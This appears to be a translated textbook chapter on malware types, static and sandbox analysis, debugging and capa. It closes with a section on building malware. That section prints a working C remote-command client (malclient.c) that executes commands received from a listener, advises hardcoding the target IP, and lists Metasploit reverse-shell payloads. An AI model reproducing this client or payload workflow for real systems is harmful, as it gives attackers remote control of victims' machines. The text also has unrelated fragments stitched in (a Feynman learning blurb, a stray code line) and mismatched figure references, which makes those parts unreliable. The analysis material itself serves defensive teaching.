-   现代勒索软件的一个已知特点是，攻击者可能会在触发加密之前，长时间预先部署（stage）恶意软件，以便在系统上加密数据。2020 年针对医疗机构的情况即为例证，且由于勒索软件运营者的手法演变，这种做法仍在继续。联邦调查局（`FBI`）曾表示，基于可靠情报，勒索软件运营者已在全球多家医院及相关企业中预先部署软件。这种“预先部署再触发”的手段对企业而言虽然极具破坏力，却是一种智慧的做法。若在环境中发现勒索软件，且在新系统感染后立即加密，则可以在其扩散过程中遏制爆发。相反，若等到所有可能的系统都被感染后再加密，组织更有可能被迫支付赎金。

### Dropper

-   Dropper 是一种恶意软件，通常不会单独出现。它作为起始点使用。一旦它被安装在系统上，就会开始抓取并安装其他软件。这可能包括后门、键盘记录器、僵尸网络客户端、木马或其他对攻击者有用的工具。使用 Dropper 而非一次性包含全部功能的原因有多种：它可以将初始感染体的体积保持最小，同时避免被检测——其他组件可能更容易被识别。当攻击者所需的所有软件都就位后，Dropper 会删除自身，以免被追踪。

-   这种多阶段攻击在检测和分析上增加了层次。Dropper 也可能包含作为 Tor 节点的功能，从而从 Tor 网络拉取恶意软件。这有助于规避检测，因为 Tor 可能不走常规可识别的路径。此外，它还使用加密，使得安全设备难以通过抓取并代理常见的超文本传输协议（HTTP）路径（端口）来检测。

### Fileless Malware

-   传统恶意软件通常以文件形式存在于磁盘上。受害者可能访问一个托管嵌入恶意代码的网站，恶意代码执行后会在受害者电脑上留下文件，供防病毒程序通过文件扫描进行检测和清除。开发者认识到防病毒程序的威胁，会采用多种技术避免被检测。其中一种技术是永不在文件系统留下痕迹，从而产生所谓的“无文件恶意软件”。

-   无文件恶意软件使检测更加困难，因为没有文件可供与防病毒程序的签名进行比对。它需要基于受害者系统行为的检测，而非基于文件的签名。

-   无文件恶意软件在持久化方面面临挑战，因为没有可通过常规启动过程执行的文件。不过，仍有方法在不写入磁盘的情况下实现持久化。例如，将 PowerShell 脚本嵌入 Windows 注册表，并使用该脚本从注册表中拉取其他恶意软件到受害服务器，直接在内存中执行。脚本还可以利用系统已有的工具与网络进行横向移动。

### Polymorphic Malware

-   防病毒软件常用签名（如密码学哈希）来识别恶意软件。每个文件实例都会产生相同的哈希值，这使得已更新的防病毒数据库能够可靠地检测并清除恶意软件。为了避免被检测，恶意软件最好不保持相同的哈希值，从而不被防病毒软件发现并移除。大规模使用的恶意软件称为“商品恶意软件”（commodity malware），它易于获得并在多个场所使用。针对特定目标的定制恶意软件则会专门编译，以确保在防病毒软件面前呈现不同。

-   另一种规避防病毒软件的技术是让恶意软件在感染新系统时重新配置自身。这类恶意软件称为“多形恶意软件”（polymorphic malware），意味着它拥有多种形式。当恶意软件感染新系统时，它可以重写解密器或负载（payload）。对这两部分任何一次更改都会导致文件签名发生变化。检测此类恶意软件的最佳方式是监测其执行行为。

## Malware Analysis

-   在进行分析之前，您需要了解我们将使用多种工具进行分析。与其单独下载并安装每个工具不同，使用一个一次性安装所有工具的包会更便捷。本次我们不使用 Kali。我们将使用基于 Windows 的工具。这里存在一定风险。大多数恶意软件是针对 Windows 系统编写的，因为它是桌面平台的主流，也是最易受社交工程攻击的对象。若您处理的是针对 Windows 的恶意软件，请格外小心，任何失误都可能导致系统被入侵。

-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 `Richard Feynman`。

1.  运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

-   Figure 8.4 显示了不同的章节及其大小。通常，`.text` 章节会是最大的。这在 Figure 8.4 中已有说明。对于任何打包或加密的程序，位于 `.text` 章节的桩程序会相对较小，而 `.data` 章节会较大。虽然 Cutter 是分析可执行文件的非常通用的工具，但它不识别打包的可执行文件。对于这种情况，我们可以转向其他程序，例如 PE Detective。PE Detective 的一个优势是可以扫描整个目录以识别程序。在 Figure 8.5 中，你可以看到一个目录中恶意软件的输出。你会看到其中有一些使用了不同的打包工具。常见的打包工具有 UPX，这里就使用了它。


**FIGURE 8.5** Looking for packers

你也会注意到 PE Detective 可以确定程序使用的编译器，这可能是个有用信息。有趣的是，回到 Cutter 中打开这些程序，可以看到可执行文件的一些属性值得检查。第一个属性是，与我们之前分析的程序不同，那个程序可以看到各个章节以及它们相对大小的图表，而被 UPX 打包的可执行文件中没有章节。我们可以通过查看其他细节来了解情况，尽管缺少至少一个 `.text` 章节是可疑的，但当我们查看入口点——操作系统被指示开始执行的内存地址时，可以看到有趣的信息在 Figure 8.6。


**FIGURE 8.6** Entry point for malware

在 Figure 8.6 的顶部有一个函数标识符。这是指向内存某处的标签。可以看到标识符是 `UPX1:entry0`。这表明程序使用了 `UPX1` 进行打包，而 `entry0` 是解压桩代码的标签。`entry0` 标签指示程序的入口点。当然，你可能会遇到没有像这样明确指示器的压缩可执行文件。UPX 仍然是最流行且常用的可执行文件压缩工具之一。

#### Disassembly


在不运行程序的情况下，观察程序将要做什么的最有效方法是查看代码。我们无法查看源代码，但可以对可执行文件进行反汇编。反汇编的过程是将 CPU 理解的操作码（opcodes）形式的可执行代码转换为人类更易理解的汇编语言。当然，汇编语言并不是最易阅读的语言。最好的情况是，它比单纯的数字更易理解。反汇编会将操作码转换为助记符（mnemonic）。助记符是一种记忆辅助技术。通常你会看到一句话，其每个单词的首字母对应需要记住的内容。这是一种助记符的形式。在我们的例子中，每条指令用三到四个字母表示其功能。

在 Figure 8.7 中，你可以看到一段已反汇编的程序片段。有很多程序可以执行反汇编。我们正在使用 Cutter 中的反汇编视图。这只是程序的只读视图。Cutter 不提供执行程序或以任何方式修改程序的能力。还有其他程序可以进行反汇编并提供对程序运行的控制。由于我们进行的是静态分析，实际上不想运行程序，所以从 Cutter 获得的内容非常合适。


**FIGURE 8.7** Program disassembly in Cutter

这里变得复杂了。要理解正在发生的事情，我们需要能够阅读汇编语言，这需要一些练习。高级编程语言为我们提供变量，而汇编语言为我们提供内存。任何操作数（operand）需要操作的数据都存储在寄存器（register）中。寄存器是固定长度的内存位置，存储在 CPU 上，访问速度非常快。我们需要将数据加载到寄存器中，这意味着我们需要诸如 `mov` 操作这样的指令。正如你可能猜测的，`mov` 用于将信息从一个位置移动到另一个位置。在 Figure 8.8 的第二行代码中，你可以看到一个 `mov`，它将数据从内存位置移动到寄存器。


**FIGURE 8.8** Properties on executable

有些寄存器具有特定功能。这里指的是 Figure 8.7。例如，第二行代码中的 `mov esi, 0x405000` 使用名为 `esi` 的寄存器。这是一个通用寄存器，常用于存储内存地址，具体来说是源地址。`edi` 寄存器用于存储目的地址。第三行代码展示了 `lea` 操作，即加载有效地址的缩写。这使得 `edi` 寄存器包含一个计算结果，结果以方括号内的形式显示。对 `esi` 的引用返回该寄存器的内容，即一个内存地址。hexadecimal 值 `0x4000` 被从该内存地址中减去，结果加载到 `edi` 寄存器中。该寄存器的值随后被压栈。将值压栈的一个原因是为函数调用做准备。这通常使用 `call` 助记符，但也可以使用某种跳转指令。跳转用于将执行转移到不同的内存位置。

跳转指令有多种形式。有些指令是配合 `cmp`（比较）使用的，用于在寄存器值不为零时进行跳转。在查看反汇编时，你还会看到许多算术操作，包括 `add` 和 `sub`（减法）。你还会看到 `inc`，即递增的助记符，表示我们在加一。区别在于你不需要分多步取出值、加一、存储结果，再把结果移回原来的寄存器。

通过跟踪代码进行静态分析是耗时的，尤其是当你不想运行程序时。运行潜在的恶意软件样本是危险的。你可能会损坏系统上的文件，或者感染网络中的其他系统。如前所述，静态分析耗时且需要对不同操作码行为有扎实的理解。

## Properties

除了查看程序文件内部，我们还可以查看与其相关的元数据。例如，编译日期和时间。一些数据不仅特定于可执行文件，而且适用于所有文件。获取文件属性可以显示创建、访问和修改的日期和时间。这可能会给你关于恶意软件以及系统上发生了什么的信息。当你查看可执行文件的属性时，会出现名为“Details”（详细信息）的选项卡。在可执行文件中，你可以看到产品名称、版权信息等。这在 Figure 8.8 中有所体现。

在这些情况下，并没有为编译器指定任何信息来写入文件。如果你查看系统中的任何文件（例如），你会看到 Microsoft Corporation 作为版权所有者。你还会得到程序的相关信息，可能包括这些信息。这并不意味着恶意软件作者会在文件中写入他们的名称。事实上，你可能会在这里发现虚假信息。软件供应商可以做的一件事是对可执行文件进行签名。这意味着添加一个加密签名。大型供应商，尤其是 Microsoft，会对可执行文件进行签名。即使恶意软件作者在元数据中插入信息，假装文件来自 Microsoft，可执行文件也不会拥有正确的加密签名。你应该能够看到签名不是使用合法 Microsoft 证书生成的。

## VirusTotal

另一种在不执行程序的情况下进行静态分析的方法是获取样本的哈希值。可以使用多种哈希算法。常见的一个是消息摘要 5（MD5）。这是一种已有数十年历史的哈希算法，广为人知，虽然在某些应用中它并不是最佳选择，因为它可能易受碰撞影响（即两个不同的数据集生成相同的值），但对于恶意软件分析来说，获得文件哈希通常不被认为是问题所在。在下面的示例中，你可以看到在 Windows 系统上运行哈希算法以获得 MD5 值。

### 获取 MD5 哈希值

```
C:\Users\kilroy\Documents
md5sum.exe bogus.exe
846693bf0c4c678e9727cfade75ebce3 *bogus.exe

C:\Users\kilroy\Documents
```

当然，你也可以使用其他哈希算法，例如安全哈希算法（SHA）。SHA‑1 的哈希值比 MD5 更长，这意味着哈希空间更大。SHA‑1 正逐渐被 SHA‑256 取代，后者的哈希空间显著更大。与 SHA‑1 相比，SHA‑256 的碰撞概率显著更低，也远低于 MD5。一旦你拥有哈希值，就可以使用它来检查恶意软件数据库，这些数据库通常存储哈希值以供比对。防病毒程序一般会将哈希值与已知恶意软件进行匹配。

有一个网站可以让你将恶意软件与多个防病毒程序进行比对。VirusTotal 目前会检查数十个防病毒程序。如果你有一个文件，可以上传它，VirusTotal 会通过获取哈希值并将其与数十个防病毒程序的数据库进行比对。Figure 8.9 显示了对位于我的垃圾邮件文件夹中的 PDF 进行测试的结果，这看起来像是一次钓鱼尝试。


**FIGURE 8.9** VirusTotal results

Figure 8.9 展示了不同防病毒程序如何识别该样本。在数十个防病毒程序中，有九个将该样本标记为恶意软件，其余均将其标记为干净。这仅说明了防病毒程序的看法，并不提供任何细节。如果我们进入“Details”标签，将获得来自不同加密算法的哈希值。Figure 8.10 展示了文件的其他属性，包括多个哈希值、文件类型以及该文件首次提交到 VirusTotal 的时间。


**FIGURE 8.10** VirusTotal details

除了这些数据外，“Details”标签还包含关于 PDF 文件被滥用的常见属性以及样本中出现的实例数量的详细信息。通过 VirusTotal，你可以获取关于样本中出现的 EXIF 文件元数据的信息。

而在静态分析的目的在于不运行程序，动态分析则是通过运行程序来观察其行为。虽然可以通过不在系统上感染恶意软件的方式来实现，但这正是动态分析的挑战所在。你需要在不实际感染自己在乎的系统的前提下，观察其行为；同时也不想将其放入仍然具有网络访问权限且可能感染你在乎的网络中其他系统的沙箱中。然而，你需要让恶意软件相信它运行在一个真实的系统上，而不是在沙箱中。

第一种方法是直接在虚拟机（VM）中运行恶意软件。这一方法的优势在于你可以完全控制恶意软件运行的操作系统和硬件，包括在网络接口上设置控制，防止其访问不希望的地方。此外，虚拟机支持快照功能，可将系统恢复到已知的干净状态，从而可以对同一恶意软件在干净系统上多次运行以持续观察其行为。它还允许你比较快照，以便观察清洁系统与运行恶意软件后系统的差异，并可对挂起的虚拟机内存进行分析。

## Cuckoo Sandbox

使用自建的虚拟机环境虽然灵活，但工作量很大。你需要安装操作系统、创建快照，然后才能运行恶意软件。随后还需要比较系统状态。更简便的做法是使用自动化系统，它会自动在虚拟机中运行恶意软件并完成状态比较，最后生成报告。如果你期待类似的自动化报告，那你会高兴地知道它已经存在。

Cuckoo Sandbox 是一个自动化恶意软件分析工具。它负责启动虚拟机、将恶意软件注入其中，并对文件、注册表、网络连接、进程操作和内存等进行分析。Cuckoo Sandbox 是免费开源软件，使用 Python 来管理虚拟机和生成报告。你需要拥有一个 Windows 虚拟机以及一个 Cuckoo Sandbox 能够控制的超级计算机（hypervisor）。后者不一定是免费的，虽然你可以使用像 KVM（基于内核的虚拟机）这样免费的超级计算机。

你不必使用自己的 Cuckoo Sandbox 安装。网络上也有提供的 Cuckoo Sandbox 实例。你可以参考 Lenny Zeltser 的博客（当前网址为 `https://zeltser.com/malicious-software/`）查看可用的沙箱列表。为了演示，我们将使用 Hieki Pikker 控制的另一个 Cuckoo Sandbox 实例。你只需上传样本，Cuckoo Sandbox 会对其哈希值进行检查，并可以在数据库中查找这些哈希是否已知，从而无需实际运行样本。

本例中的样本此前已被分析过。它完全无害，只是在磁盘上留下了一行文本文件，表面上没有任何可疑之处。即便如此，仍可使用 Cuckoo Sandbox 执行该程序并获取其行为报告。Figure 8.13 展示了上传样本时的详细信息，包括文件类型（可移植可执行文件，32 位），以及来自不同算法的哈希值，还有一个 YARA 条目，YARA 是用于描述恶意软件文件的语言。


**FIGURE 8.13** Cuckoo Sandbox details

在我们提供的样本被运行之前，可以对其运行环境做一些选择。这些选项在 Figure 8.14 中显示，其中包括我们可以决定如何限制环境，包括为样本提供的网络访问权限。在某些情况下，你可能不想提供完整的 Internet 访问，以免失控。你可能需要限制网络访问，或者如果恶意软件因无法联网而未能完整部署，则需要延长超时时间。你可以决定 sandbox 在多长时间后关闭，Cuckoo Sandbox 允许你配置运行时长，但并非必须进行配置。


**FIGURE 8.14** Cuckoo Sandbox options

我们将使用默认设置运行样本。运行过程中，状态会定期更新。当恶意软件被执行时，Cuckoo Sandbox 会生成日志供我们查看。以下代码块展示了提交样本的日志内容，记录了 Cuckoo Sandbox 对样本的所有监控和管理细节。

### Cuckoo Sandbox Logs

```
 2023-01-17 02:54:09,015 [analyzer] DEBUG: Starting analyzer from: C:\tmp3oj4f_
 2023-01-17 02:54:09,015 [analyzer] DEBUG: Pipe server name: \??\PIPE\kSExGJIXHFbEHDFEKHEYNDsVlRQZEvm
 2023-01-17 02:54:09,015 [analyzer] DEBUG: Log pipe server name: \??\PIPE\zRhqTZBEUJoPjNIcpHbDUDobbOoFI
 2023-01-17 02:54:09,280 [analyzer] DEBUG: Started auxiliary module DbgView
 2023-01-17 02:54:09,983 [analyzer] DEBUG: Started auxiliary module Disguise
 2023-01-17 02:54:10,171 [analyzer] DEBUG: Loaded monitor into process with pid 496
 2023-01-17 02:54:10,171 [analyzer] DEBUG: Started auxiliary module DumpTLSMasterSecrets
 2023-01-17 02:54:10,171 [analyzer] DEBUG: Started auxiliary module Human
 2023-01-17 02:54:10,171 [analyzer] DEBUG: Started auxiliary module InstallCertificate
 2023-01-17 02:54:10,171 [analyzer] DEBUG: Started auxiliary module Reboot
 2023-01-17 02:54:10,203 [analyzer] DEBUG: Started auxiliary module RecentFiles
 2023-01-17 02:54:10,217 [analyzer] DEBUG: Started auxiliary module Screenshots
 2023-01-17 02:54:10,217 [analyzer] DEBUG: Started auxiliary module LoadZer0m0n
 2023-01-17 02:54:10,265 [lib.api.process] INFO: Successfully executed process from path u'C:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\bogus.exe' with arguments '' and pid 2268
 2023-01-17 02:54:10,437 [analyzer] DEBUG: Loaded monitor into process with pid 2268
 2023-01-17 02:54:10,437 [analyzer] INFO: Added new file to list with pid 2268 and path C:\Users\Administrator\AppData\Local\Temp\file.txt
 2023-01-17 02:54:10,608 [lib.api.process] INFO: Memory dump of process with pid 2268 completed
 2023-01-17 02:54:11,312 [analyzer] INFO: Process with pid 2268 has terminated
 2023-01-17 02:54:11,328 [analyzer] INFO: Process list is empty, terminating analysis.
 2023-01-17 02:54:12,328 [analyzer] INFO: Analysis completed.
```

Cuckoo Sandbox 在运行时会拍摄屏幕截图。在 Figure 8.15 中，你可以看到运行信息，其中包括在样本运行期间拍摄的屏幕截图缩略图。此外，还提供了运行统计数据，包括系统运行样本所需的时间。还能看到日志链接，其中我们之前已经查看过一些。这里提供了系统变化的详细信息。运行细节提供了一些信息，屏幕截图可供进一步细节，而日志则更为精细。在分析器日志中可以看到样本创建了文件系统中的文件，并给出了文件的路径和名称。如果样本有网络活动，也会在日志中体现。


**FIGURE 8.15** Cuckoo Sandbox results

-   [`Cuckoo Sandbox`](https://example.org) 会将恶意软件的运行风险转移到我们的系统和网络之外，但也会将恶意软件的控制权转移出我们的掌控。有时你想能够实时观察恶意软件到底在做什么，并且在运行时查看其代码。

## 调试


使用调试器可以让你对样本的运行拥有完整的控制权。当然，这也把可能随恶意软件出现的问题交给了你。调试器提供的控制权可以让你跳过那些极其糟糕的操作。在深入之前，让我们先了解什么是调试器。调试器让开发者能够对程序的运行进行控制，即开发者可以逐行、逐函数地逐步执行程序。在集成开发环境（IDE）中，集成的调试器通常能够让我们逐行、逐函数地查看源代码。然而，在恶意软件分析时，我们并没有这种奢侈 — — 如果拥有源代码，就不需要做这些。相反，我们会逐指令（`opcode`）地逐步执行，因为我们查看的是反汇编代码而非源代码。

市面上有很多调试器。调试器和反汇编器的“王者”是 `IDA Pro`。你可以使用 `IDA Pro` 在多种处理器架构和操作系统之间进行工作。你可能不需要 `IDA Pro` 所提供的全部功能，因而可以考虑使用 `OllyDbg`、`Immunity Debugger` 或 Microsoft 的 `Windows Debugger`。我们将从使用 `IDA` 的社区版（而非 Pro 版）开始，因为它已经包含我们所需的全部功能。

首先，我们需要将可执行文件加载到 `IDA Free` 中。Figure 8.16 展示了加载文件时可以选择的选项集合。这些选项由 `IDA` 自动决定，但你也可以进行一些调整。例如，`IDA` 判定该文件是 64 位便携可执行文件。如果你确信它不是，且 `IDA` 做出了错误判断，你可以手动修改该判断。通常 `IDA` 很难判断错误，因为所有信息都来源于文件的元数据；但如果你真的想与 `IDA` 的选择不同，仍然可以自行修改。

`IDA` 加载文件后，会以多种方式呈现反汇编代码。其中一种方式是图形化的函数调用图。该图展示了入口函数以及程序可能走的所有路径，提供了可视化的执行流。对于我们这里的简单且规模不大的程序，该视图并不特别有用；但在拥有多条执行路径的大型程序中，它能够帮助你直观地跟踪不同的执行路径，而无需记忆每一步的细节。Figure 8.17 展示了反汇编程序的初始视图的一部分。

```

```

**FIGURE 8.16** New IDA session

```

```

**FIGURE 8.17** IDA view

仅作比较，我们接下来查看 `OllyDbg`，这是一款开源调试器。虽然其开发已多年停滞，但它仍然能够显示汇编代码。加载程序到 `OllyDbg` 后，你会看到如 Figure 8.18 所示的界面。`OllyDbg` 简洁直接：它提供反汇编代码和对应的十六进制 dump，让你能够在字节级别观察程序；同时右侧显示寄存器及其当前数值，这些数值在程序运行时会不断变化。如果你逐步执行每条指令，就能更直观地看到程序的行为及每条指令的具体作用。


**FIGURE 8.18** OllyDbg view

如果直接启动程序，它会一直运行到结束，你不会看到任何调试信息。因此，你需要设置断点。断点会在你指定的位置暂停程序执行。为了观察程序从入口点开始的全部行为，你需要定位入口点。一种简便的方法是利用调用栈（`call stack`）。每当程序调用函数，函数会被压入调用栈，从而可以通过栈来追踪程序的执行路径。打开调用栈窗口（如 Figure 8.19 所示），栈顶的条目即为入口点 — — 也就是第一个被调用的函数。要获得该地址，你需要先运行程序一次，让它执行到入口点为止；随后记录下入口点的内存地址，右键单击对应指令并通过上下文菜单打开断点选项即可。

```

```

**FIGURE 8.19** Call stack

断点设置好后，你可以启动程序的运行。程序一启动就会因断点而停止。要继续运行，你可以逐行步进（step‑by‑step），也可以让程序继续运行直至下一个断点或程序结束。逐行步进有几种方式：

- **步入（step into）**：进入被调用函数，包括标准库函数，这会导致你在内存中跳转多次。

- **步过（step over）**：调用函数并直接停留在当前上下文，不会进入函数内部。

在 Linux 程序中，你常会看到 `int 0x80` 这类指令，它触发中断向量 128（0x80），用于发起系统调用。系统调用是向内核/操作系统发送请求的过程。Windows 环境下虽然也可以直接使用系统调用，但更常见的是通过库函数包装系统调用。这些 API（应用编程接口）使代码更加标准化，也更可能经过优化。

调用库函数的过程相对简单：使用调用指令并传入函数的地址。正如每次创建新栈帧时需要调整栈指针（`esp`）和指令指针（`eip`），在调用库函数前也需要做相应的栈指针调整。下面的代码片段展示了两次调用库函数的片段。在调用 `iob_lb0` 之前，栈指针和指令指针被保存，为跳转到新函数做准备。

**调用库函数**

```
|           0x004012e0           sub esp, 0x1c
|           0x004012e3           mov dword [esp], 1
|           0x004012ea           call dword sym.imp.msvcrt.dll  set_app_type] ; 0x408198
|           0x004012f0           call sub.msvcrt.dll  iob_1b0
|           0x004012f5           lea esi, [esi]
|           0x004012f9           lea edi, [edi]
|           0x00401300       _WinMainCRTStartup:
|           0x00401300           sub esp, 0x1c
|           0x00401303           mov dword [esp], 2
|           0x0040130a           call dword [sym.imp.msvcrt.dllset_app_type] ; 0x408198
|           0x00401310           call sub.msvcrt.dll  iob_1b0
|           0x00401315           lea esi, [esi]
 \           0x00401319           lea edi, [edi]
 /           0x00401320      (fcn) sym._atexit 6
```

库函数让程序更易跟踪，因为它们是按名称调用的；由于库有名称且函数带标签，处理器知道跳转到哪块内存空间以及在该空间内的哪个位置。标签即为函数名称，因此你至少可以在不进入函数逐行观察每个操作的情况下，对程序的部分内容有一个把握。

### Automated Malware Analysis

了解任何可执行文件的构建方式以及如何检查文件的整体结构和单个章节是有用的，但有时你只想知道恶意软件的行为。目前为止，我们主要在做高度手动的评估。沙箱是自动化且非常有用的工具，但它们依赖于执行恶意软件。如果你想在不执行恶意软件的情况下分析它，同时理解部分威胁行为，可以使用 `capa`，这是由 Mandiant 的 FLARE 团队提供的工具。图 8.20 显示在 Windows 系统上对 Hive 勒索软件二进制文件运行 `capa`。


**FIGURE 8.20** Using capa on a malware sample

在输出中，你会注意到行为已使用 MITRE ATT&CK 框架进行分类。Tactics（战术）和 Techniques（技术）均被识别。此外，行为还通过 MITRE 的恶意软件行为目录（MBC）进行识别。MBC 类似于 ATT&CK 框架，但专注于恶意软件。MBC 将恶意软件中观察到的不同行为进行分类，包括反分析、凭证访问、规避防御、横向移动和持久化。

## Creating Malware

你可以从很多渠道获取恶意软件样本来进行测试。使用他人的恶意软件的问题在于你可能不完全了解它的全部功能。此外，恶意软件可能在尝试与他人控制的系统通信。在与客户进行测试时，你可能需要使用恶意软件，或者至少使用灰色软件。请记住，你必须遵守伦理准则，这意味着不能使用可能对系统造成损害的真实恶意软件。你的目标可能是在不被发现的情况下保持对系统的访问，也可能是看看能否在不被检测的情况下将恶意软件注入网络并传播到系统上。

如果你想从零开始，有两种主要思路。第一种是自己编写恶意软件，这需要一定的编程能力。第二种则更为容易，利用 `Metasploit`，因为它已经提供了大量模块，并且可以生成独立的可执行文件。

### Writing Your Own

如果你有编程经验，或者至少愿意大胆尝试并学习，你可以尝试自行创建恶意软件。一种简便的做法是编写一个能够执行你需要的功能的程序。例如，你可以编写一个客户端，使其能够连接到任何 `handler` 或基于 `netcat` 的监听器。该客户端可以为你提供远程系统访问，这在很多情况下很有用。你需要使用其他攻击手段将程序部署到目标系统上，但一旦部署成功，系统即可被你控制。

你需要选择一种编程语言来编写恶意软件。选择众多。`Python` 目前是流行的编程语言，拥有足够的库来支持几乎任何需求。`Python` 的缺点是需要在运行脚本的系统上安装 `Python` 解释器。你会发现大多数系统没有预装 `Python`，虽然可以安装，但通常工作量很大。像 `C` 这样的语言经过验证，网上有大量源码可供你提取代码片段，组合成可工作的程序。

与 `Python` 的区别在于 `C` 是编译语言。在拥有可执行程序之前，你必须先将源代码交给编译器生成程序。最佳做法是使用与目标平台相同的环境进行编译。如果你计划在 Windows 32 位系统上安装该程序，则在 Windows 32 位系统上编译会更为便捷。也有跨平台编译器可以在 Linux 系统上生成 Windows 可执行文件，反之亦然。你甚至可以通过合适的库和编译器管理 32 位与 64 位的差异。

大多数人会使用微软的 IDE 来构建软件。这些 IDE 适合于你可能要编写的程序，而 `Visual Studio` 更侧重于利用 Windows API 的程序，而非仅使用标准 C 库。还有其他选项。`MinGW`（Minimal GNU 环境）为 Windows 提供编译器，你也可以直接获取完整的 GNU 工具链。

下面的代码片段是一个功能极简的程序，用于建立连接到目标系统。在远程系统上，你可以仅运行一个 `netcat` 监听器，或自行编写专门的监听程序。你也可以使用 `Metasploit` 之类的框架中的 `handler`。这里展示的程序在 Linux 系统上编译并测试，能够连接到指定的 IP 地址。硬编码 IP 地址的写法虽然不符合最佳实践，但可以最大限度地减少与你试图渗透的系统之间的交互。处理 IP 地址的更好方式是通过命令行参数或配置文件传递，避免任何用户交互。因此，你应事先知晓目标 IP，将其写入代码，编译程序后直接发送。

**`malclient.c` 程序**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <string.h>
#include <unistd.h>
 
 void handleRequest(char *req)
 {
     system(req);
 }
 
 
 int main(int argc, char **argv)
 {
     printf("Starting client\n");
     struct sockaddr_in addr;
     struct sockaddr_in srv;
     int sock, data = 0;
     char buffer[256];
 
 
     if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0)
     {
         printf("Error creating socket! Stopping…\n");
         return -9;
     }
 
     memset(&srv, '0', sizeof(srv));
 
     srv.sin_family = AF_INET;
     srv.sin_port = htons(4444);
 
     if (inet_pton(AF_INET, "127.0.0.1", &srv.sin_addr) <= 0)
     {
         printf("Bad address! Stopping…\n");
         return -8;
     }
 
     if (connect(sock, (struct sockaddr *)&srv, sizeof(srv)) < 0)
     {
         printf("Can't connect! Stopping…\n");
         return -6;
     }
 
     send(sock, "Connected\n", strlen("Connected\n"), 0);
     data = read(sock, buffer, 255);
     handleRequest(buffer);
 
     return 0;
 }
```

主函数负责创建用于连接到服务器的套接字。套接字是伯克利加州大学（UCB）作为 AT&T UNIX 的再创作所引入的数据结构和处理机制，用于通过 TCP/IP 及相关协议与其他系统交互。套接字创建并连接后，程序向服务器发送一条消息，然后等待响应。收到响应后，它将字符串传递给 `system()` 函数，使操作系统像用户在命令行中输入那样执行该字符串。

- [正如前面所指出的，这是一个基础程序。首先，它只需要一个命令即可结束程序。此外，`system()` 调用仅在客户端上运行命令，没有任何命令牌输出被重定向到服务器。为了获取这些输入，程序应该使用类似 `popen()` 的方法，它会打开一个进程并将传递的字符串作为要运行的进程。这也可以让你启动任何新进程并捕获输出，以便将其发送回服务器端。

### 使用 Metasploit

也许更简单的方法是使用 `Metasploit`。这样你就不必担心 CPU 架构和编译器，也不必对程序进行任何自定义并重新编译。`Metasploit` 让你可以将其提供的任何模块打包成可执行文件。为了我们的目的，我们将查找能够建立反向连接的负载。该反向连接应能够连回我们已打开的服务器。

我们需要寻找能够匹配我们在服务器端计划执行操作的负载。如果我们要使用 `netcat` 打开端口，则不能使用类似 `Meterpreter` 的负载，因为它需要 `Meterpreter` 处理器，必须在 `Metasploit` 中运行该处理器。如果我们想使用 `netcat` 作为服务器，则可以使用反向 shell 负载。要找到合适的负载，可以在 `msfconsole` 内进行搜索。下面的列表展示了在 `msfconsole` 中搜索 Windows 32 位架构负载的示例，我们正在寻找反向 TCP 负载。结果数量很多，这里只展示了其中的一部分。

**Searching for Payloads**

```
msf6> search arch:x86 platform:windows reverse_tcp

 匹配模块

 ================

    #   名称                                                     披露日期  排名    检查  描述

    -   ----                                                     ---------------  ----    -----  -----------

    0   `payload/windows/dllinject/reverse_tcp_allports`                            正常  否     反射 DLL 注入，反向所有端口 TCP 载荷

    1   `payload/windows/dllinject/reverse_tcp`                                     正常  否     反射 DLL 注入，反向 TCP 载荷

    2   `payload/windows/dllinject/reverse_tcp_dns`                                 正常  否     反射 DLL 注入，反向 TCP 载荷（DNS）

    3   `payload/windows/dllinject/reverse_tcp_rc4_dns`                             正常  否     反射 DLL 注入，反向 TCP 载荷（RC4 加密 DNS，Metasm）

    4   `payload/windows/dllinject/reverse_tcp_rc4`                                 正常  否     反射 DLL 注入，反向 TCP 载荷（RC4 加密，Metasm）

    5   `payload/windows/dllinject/reverse_tcp_uuid`                                正常  否     反射 DLL 注入，反向 TCP 载荷（带 UUID 支持）
```


- 6 `payload/windows/vncinject/reverse_tcp_allports` 正常 否 VNC 服务器（反射注入），反向所有端口 TCP 载荷
- 7 `payload/windows/vncinject/reverse_tcp` 正常 否 VNC 服务器（反射注入），反向 TCP 载荷
- 8 `payload/windows/vncinject/reverse_tcp_dns` 正常 否 VNC 服务器（反射注入），反向 TCP 载荷（DNS）
- 9 `payload/windows/vncinject/reverse_tcp_rc4_dns` 正常 否 VNC 服务器（反射注入），反向 TCP 载荷（RC4 加密 DNS，Metasm）
- 10 `payload/windows/vncinject/reverse_tcp_rc4` 正常 否 VNC 服务器（反射注入），反向 TCP 载荷（RC4 加密，Metasm）
- 11 `payload/windows/vncinject/reverse_tcp_uuid` 正常 否 VNC 服务器（反射注入），反向 TCP 载荷（带 UUID 支持）
- 12 `payload/windows/shell/reverse_tcp_allports` 正常 否 Windows 命令行 shell，反向所有端口 TCP 载荷
- 13 `payload/windows/shell_reverse_tcp` 正常 否 Windows 命令行 shell，反向内联 TCP
- 14 `payload/windows/shell/reverse_tcp` 正常 否 Windows 命令行 shell，反向 TCP 载荷
- 15 `payload/windows/shell/reverse_tcp_dns` 正常 否 Windows 命令行 shell，反向 TCP 载荷（DNS）
- 16 `payload/windows/shell/reverse_tcp_rc4_dns` 正常 否 Windows 命令行 shell，反向 TCP 载荷（RC4 加密 DNS，Metasm）
- 17 `payload/windows/shell/reverse_tcp_rc4` 正常 否 Windows 命令行 shell，反向 TCP 载荷（RC4 加密，Metasm）
- 18 `payload/windows/shell/reverse_tcp_uuid` 正常 否 Windows 命令行 shell，反向 TCP 载荷（带 UUID 支持）
- 19 `payload/windows/patchupdllinject/reverse_tcp_allports` 正常 否 Windows 注入 DLL，反向所有端口 TCP 载荷
- 20 `payload/windows/patchupdllinject/reverse_tcp` 正常 否 Windows 注入 DLL，反向 TCP 载荷
- 21 `payload/windows/patchupdllinject/reverse_tcp_dns` 正常 否 Windows 注入 DLL，反向 TCP 载荷（DNS）
